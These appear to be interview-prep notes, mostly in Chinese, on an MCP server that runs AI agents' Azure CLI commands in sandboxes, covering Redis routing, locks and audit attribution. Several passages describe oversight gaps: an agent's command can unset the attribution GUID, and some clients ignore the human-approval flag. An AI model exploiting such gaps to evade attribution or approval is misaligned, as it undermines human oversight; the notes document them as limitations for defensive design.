**结论：** Redis 不存用户的 OAuth 登录状态。用户的 token 在客户端手里，server 每次请求独立验 JWT，这部分本来就是无状态的。Redis 存的是"哪台沙箱属于谁"，以及"这台沙箱是不是已经用 FIC 登录过 SP"。目的是让任何一个 server 副本都能找到同一台沙箱。

**为什么需要它。** 建一台沙箱不便宜：冷启动端到端中位 4.0 秒，其中建 microVM 中位 1.11 秒，FIC 登录中位 2.68 秒；复用一台已有的只要 0.08 秒。所以同一个人连续发命令时要落到同一台沙箱，还要保证不管请求落到哪个副本都能找到它。

**几种"登录状态"分别放在哪：**

| 状态                                 | 放在哪                                           | 说明                                          |
| ------------------------------------ | ------------------------------------------------ | --------------------------------------------- |
| 用户的 access token 和 refresh token | 客户端（Claude Code、VS Code）                   | server 不存，每次请求带过来，验签名即可       |
| 用户属于哪些 AD group                | server 进程内存，300 秒                          | 还没放进 Redis，多副本时每个副本各缓存一份    |
| 沙箱里 `az login` 的 SP 登录       | 沙箱 microVM 自己的 `~/.azure`                 | 真正的 token 在 VM 里，不出沙箱               |
| 这台沙箱登录过没有                   | Redis `mcp:bootstrapped:{sandbox_id}`，1800 秒 | 只是一个标记。过期后再执行一次幂等的 FIC 登录 |

**Redis 里的 key：**

| key                               | 值                      | 作用                                           |
| --------------------------------- | ----------------------- | ---------------------------------------------- |
| `mcp:usersession:{oid}`         | 当前活动窗口的 id       | 30 分钟滑动窗口，同一个人连续调用就一直沿用    |
| `mcp:session:{oid}:{窗口}:{组}` | `sandbox_id`          | 路由：这个人、这个窗口、这个组用哪台沙箱       |
| `mcp:sbxidx:{sandbox_id}`       | `{oid, 窗口, 组}`     | 反向索引，回收进程靠它判断一台沙箱还有没有主人 |
| `mcp:profile:{oid}`             | 用户默认的 subscription | 新沙箱登录后切到这个人习惯的 subscription      |
| `lock:{oid}:{窗口}:{组}`        | 随机 token              | 跨副本的创建锁，避免同一个人同时建两台         |
| `mcp:reaper:leader`             | 随机 token              | 多副本时只让一个副本跑回收                     |

**组必须是 key 的一部分。** 一台沙箱只登录一个 SP。diagnose 和 action 如果共用一台，Reader 和 Contributor 的边界就混在一起了。

**一次 tool call 怎么找沙箱：**



**"无状态"的判断标准：** 一个请求随机落到任何一个副本上，结果都一样吗？

| 状态                                   | 现在在哪                                              | 多副本时                                                                            |
| -------------------------------------- | ----------------------------------------------------- | ----------------------------------------------------------------------------------- |
| 路由、活动窗口、反向索引、用户 profile | Redis                                                 | 已共享                                                                              |
| 用户生成的文件                         | Blob，按 `{oid}/{活动窗口}/{对话}` 分目录，挂进沙箱 | 已共享，沙箱换了文件还在                                                            |
| 创建锁                                 | 进程内 `asyncio.Lock` + Redis 锁                    | Redis 锁代码已写，默认关闭                                                          |
| 回收进程                               | 每个副本一个                                          | 用 `SET NX EX` 抢 lease 选出一个，已实现                                          |
| 组成员缓存                             | 进程内存                                              | 不影响正确性，只是撤权在每个副本上各自最多晚 300 秒                                 |
| MCP 传输层会话（`mcp-session-id`）   | 进程内存                                              | **还没解决**，需要 ingress session affinity 或 FastMCP 的 stateless HTTP 模式 |

**现状：** MCP server 部署是 `minReplicas = maxReplicas = 1`，多副本没有在生产验证过，面试时不要说成已经验证。

**Redis 挂了怎么办：** 不让工具调用失败（fail open）。最坏情况是多建一台沙箱，回收进程之后会清掉。多花一点资源，好过用户的工作整段中断。

**锁的参数怎么定的：** 先打点实测，最坏的"建机 + 登录"是 8.3 秒，所以锁的 TTL 定 60 秒、等待 45 秒、创建超时 45 秒，不需要做锁续期。

**沙箱的生命周期：** 某个组 30 分钟没被调用，路由过期；空闲 5 分钟自动挂起（可唤醒）；回收进程每 5 分钟扫一次，通过反向索引找到已经没有路由指向的沙箱并删除；平台自己的策略 1 小时兜底删除。

**为什么 Redis 是独立的 Container App，不是 sidecar。** sidecar 意味着每个副本各有一份 Redis，副本 B 看不到副本 A 建的沙箱，共享状态就没了。

*EN:*

> Redis doesn't hold the user's login. The client holds the token, and I validate the JWT on every request, so auth is already stateless. What Redis holds is sandbox routing: user, 30-minute activity window and permission group map to a sandbox ID, plus a flag for whether that sandbox has already done its federated login. The group has to be part of the key, because one sandbox is logged in as exactly one service principal. A cold sandbox takes about four seconds; reuse takes 80 milliseconds. The routing state, files and locks can all be shared across replicas. What I haven't solved is the MCP transport session, which still lives in memory, so today it runs as a single replica. Scaling out would need session affinity or stateless HTTP mode. If Redis goes down, it fails open: worst case we create an extra sandbox and the reaper cleans it up.

### 2.8 归因：共享 SP 做的事，怎么追回到具体的人

**结论：** 事实存在自己的审计表里；Azure 的日志里只放一个每次调用唯一的 GUID，当作指针。一次 KQL join 就能从"某个 SP 读了一个 blob"追到具体的人、他的 IP 和完整命令。

**为什么不用 Azure 自己的 id：**

| id                         | 谁生成       | 为什么不能用                                               |
| -------------------------- | ------------ | ---------------------------------------------------------- |
| `x-ms-request-id`        | Azure        | 执行后才知道，要从 `az --debug` 里抓，又脆又对不齐       |
| `correlationId`          | ARM          | 只在控制面，Storage 数据面的日志里是另一个 id              |
| `x-ms-client-request-id` | 调用方自己设 | 唯一能指回自己系统的，但普通的 `az` 子命令没有参数能设它 |

**两层做法：**

- **审计表 `MCPAudit_CL`。** 每次 tool call 写一行：GUID、tool、用户 `oid` 和 UPN、用户真实 IP、完整命令、explanation、exit code。真实 IP 只在 MCP 入口存在（取 `X-Forwarded-For` 第一跳），再往下都是沙箱的出口 IP，所以必须在入口记下来。
- **User-Agent 里的 GUID。** `az` 认环境变量 `AZURE_HTTP_USER_AGENT`。每次执行前在同一个 shell 里 `export AZURE_HTTP_USER_AGENT=mcp/<guid>`，这条命令发出的每个 HTTP 请求都会带上它，不用逐条命令改造。

**实测：不同服务把 User-Agent 记在不同的列里。** Storage 在 `StorageBlobLogs.UserAgentHeader`，Key Vault 在 `AzureDiagnostics.clientInfo_s`。这两条在真实日志上闭环验证过。

```kusto
StorageBlobLogs
| extend cid = extract(@"mcp/([0-9a-f]+)", 1, UserAgentHeader)
| where isnotempty(cid)
| join kind=leftouter (MCPAudit_CL) on $left.cid == $right.correlation_id
| project TimeGenerated, OperationName, RequesterObjectId, user_upn, client_ip, command
```



**为什么默认不把 `oid` 放进 User-Agent：**

- GUID 精确到一次调用，`oid` 只精确到一个人。
- User-Agent 可以被伪造，不能当权威证据，权威在审计表里。
- 少把身份标识复制进一堆服务的日志里，每个服务的保留期和访问权限都不一样。

**诚实的边界：**

- **Activity Log 不记 User-Agent。** `az group delete` 这种控制面操作进的是 Activity Log，里面只有调用者（SP）、调用 IP（沙箱出口）和时间。只能按"SP + 时间窗口"和审计表对，精确不到一次调用。这条路项目里没验证过。
- **审计是尽力而为。** 写审计表失败不阻塞命令。
- **GUID 能被去掉。** `export` 和 agent 的命令在同一个 shell 里，命令可以 `unset` 掉它。所以 GUID 只是指针，权威记录在审计表里，审计表是 server 写的，agent 碰不到。

*EN:*

> Every command runs as a shared service principal, so native Azure logs only show the SP and the sandbox's IP. Azure's own IDs don't help: correlation ID doesn't cross from ARM to the data plane, and typed az commands can't set a client request ID. So I keep the facts in my own audit table, and put a per-call GUID into the User-Agent through an environment variable the Azure CLI already supports. Storage and Key Vault both log the User-Agent, so one KQL join takes you from "the SP read a blob" to the real user, their IP and the full command. One gap: the Activity Log doesn't record User-Agent, so control-plane operations can only be matched by SP and time window.

### 2.9 其他可能被问的

**写操作有没有人工审批？**
有，但强不强取决于客户端。action tool 带 `_meta["anthropic/requiresUserInteraction"] = true`，`explanation` 是必填参数，要一句话说清楚命令干什么、影响多大，给审批的人看。Claude Code 认这个标记，就算本地配置成自动允许也会强制弹确认；VS Code 要关掉自动批准，大规模部署要靠 MDM 推配置；opencode 不认这个标记，只能靠项目里的 `permission` 配置，用户自己就能改。所以审批是补偿控制，真正兜底的还是 SP 的权限。

> *EN:* The action tool requires human approval through a server-side flag, but enforcement depends on the client. Claude Code honors it strictly, VS Code needs auto-approve turned off, and opencode ignores it. That's exactly why the hard boundary has to be identity.

**只有 Reader 和 Contributor 两个 SP，太粗了吧？**
两个只是为了演示机制。真实环境应该按用途切，有多少种需要授权的用途就建多少个 SP，每个 SP 的 RBAC 只覆盖那件事。比如 `adf-oncall` 组对应一个只能在某个 resource group 里读 ADF、触发 run、启停 IR 的 SP；`storage-janitor` 组对应一个只能删某个 Storage Account 里 blob 的 SP。同一个人可以在多个组里，看到多个 tool。MCP server 的代码不用变，只是多一组"组 → SP"的配置。

> *EN:* Two SPs is just the demo. In practice it's one SP per use case, scoped to exactly that job, like an ADF on-call SP that can only trigger runs in one resource group. The server code doesn't change; it's just another group-to-SP mapping.

**冷启动多慢？**
实测 10 台（diagnose 5 台、action 5 台）：端到端中位 4.0 秒，最坏 8.3 秒；复用已有沙箱 0.08 秒。其中建 microVM 中位 1.11 秒，FIC 登录中位 2.68 秒。登录比建机器还慢，但更稳定；波动主要来自建机器的调度。这是这次部署的测量值，不是 ACA 的 SLA。

**还有什么没做完？**
出站流量管控（见 2.4）；多副本没有在生产验证，MCP 传输层会话还在进程内存里（见 2.7）；审计是尽力而为，没做可靠队列和失败告警；测试主要覆盖 happy path，缺多副本并发、Redis 故障注入、撤权时效、各客户端版本的回归。

**20+ engineers 怎么来的？**
⚠️ 本地文档没有使用量数据。面试前想好是哪几个团队、怎么统计的（比如审计表里不同 `oid` 的数量）。

---

## 3. 数字和口径（被追问时别讲错）

| 说法                                                                      | 依据                                                     | 注意                                                                                            |
| ------------------------------------------------------------------------- | -------------------------------------------------------- | ----------------------------------------------------------------------------------------------- |
| 沙箱冷启动中位 4.0 秒，最坏 8.3 秒；复用 0.08 秒                          | 实测 10 台（diagnose 5 + action 5）                      | 是这次部署的测量值，不是 ACA SLA                                                                |
| 建 microVM 中位 1.11 秒，FIC 登录中位 2.68 秒                             | 同上                                                     | 登录比建机器慢，但更稳                                                                          |
| 锁 TTL 60 秒、等待 45 秒、创建超时 45 秒                                  | 由实测最坏值 8.3 秒反推                                  | 所以没做锁续期                                                                                  |
| 组成员缓存 300 秒                                                         | 进程内存，按 `oid` 缓存                                | 移出组后最多 5 分钟才失效                                                                       |
| 活动窗口 30 分钟，空闲 5 分钟挂起，回收每 5 分钟一次，平台 1 小时兜底删除 | 沙箱生命周期                                             | 主答案里说"session 空闲后回收"，不要说"每条命令跑完就删"                                        |
| GUID 能 join 回真人                                                       | Storage、Key Vault 的资源日志实测验证                    | 说 resource logs，不要说 Activity Log；Activity Log 不记 User-Agent                             |
| 沙箱里没有长期 secret                                                     | FIC：沙箱的 managed identity 换 SP 登录                  | MCP server 自己有一个 client secret，用来做 OBO 查 Graph。被问"系统里哪里还有 secret"时要能答上 |
| 多副本                                                                    | 当前 `minReplicas = maxReplicas = 1`，分布式锁默认关闭 | 不要说成"已在多副本生产验证"                                                                    |
| burstable microVM                                                         | 你的原话                                                 | burstable 在 Azure 里通常指 B 系列 VM。被追问时说 on-demand microVM，按需创建、空闲挂起         |
| 20+ engineers                                                             | ⚠️ 本地文档没有使用量数据                              | 面试前想好是哪几个团队、怎么统计的                                                              |

---

## 4. 参考文档

| 想复习什么                                          | 文档                                                                                                                                                                   |
| --------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| CLI 是组合层、两个身份怎么拆、本地原型              | [series-01 Bash 与身份边界](/Users/wqeq/Desktop/project/Identity-Aware-MCP/post/zh/series-01-bash与身份边界.md)                                                         |
| ACA sandbox、FIC、Redis 路由、锁、实测数字          | [series-02 ACA 沙箱与 Redis](/Users/wqeq/Desktop/project/Identity-Aware-MCP/post/zh/series-02-aca沙箱与redis.md)                                                        |
| 多副本到底还差什么：锁、回收选主、进程内状态        | [MCP 水平扩展：分布式锁与 Reaper 选主](/Users/wqeq/Desktop/project/Identity-Aware-MCP/docs/zh/ACA-Redis-Implementation/MCP-水平扩展-分布式锁与Reaper选主.md)            |
| `AADSTS9010010` 和 `/mcpproxy`                  | [series-03 多客户端 OAuth](/Users/wqeq/Desktop/project/Identity-Aware-MCP/post/zh/series-03-多客户端oauth.md)                                                           |
| 完整 OAuth 时序、pre-registration、各客户端支持情况 | [MCP 自定义 Client 接入 Entra](/Users/wqeq/Desktop/project/Identity-Aware-MCP/docs/zh/multi-client-implementation/MCP-自定义Client接入-Entra与各Agent客户端支持对比.md) |
| correlation GUID、`MCPAudit_CL`、KQL join         | [series-04 用户归因](/Users/wqeq/Desktop/project/Identity-Aware-MCP/post/zh/series-04-用户归因.md)                                                                      |
| 脱敏被绕过、审批强制力、出站流量 roadmap            | [series-05 护栏与未完成](/Users/wqeq/Desktop/project/Identity-Aware-MCP/post/zh/series-05-护栏与未完成.md)                                                              |
| 项目踩过的坑和分歧                                  | [项目 context 索引](/Users/wqeq/Desktop/project/Identity-Aware-MCP/doc/context-index.md)                                                                                |
| 代码入口                                            | `src/mcp-server/main.py`（tool 和组检查）、`mcpproxy.py`、`sandbox_manager.py`、`cache.py`、`session.py`、`audit.py`、`redact.py`                        |
